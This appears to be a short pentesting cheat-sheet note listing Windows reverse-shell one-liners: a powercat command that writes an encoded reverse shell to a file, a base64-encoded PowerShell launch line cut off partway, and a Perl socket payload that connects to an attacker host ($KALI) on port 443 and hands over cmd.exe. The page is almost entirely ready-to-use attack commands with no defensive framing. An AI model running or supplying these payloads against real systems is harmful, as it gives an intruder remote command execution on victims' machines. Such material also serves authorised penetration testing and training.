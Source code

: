 #### PowerCat Encoded Reverse Shell
```powershell - windows
powercat -c $KALI -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```

```powershell - windows
type encodedreverseshell.ps1
```

```powershell - windows
powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZ
```

#### Perl
```powershell - windows
use Socket;$i="$KALI";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("cmd");};
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
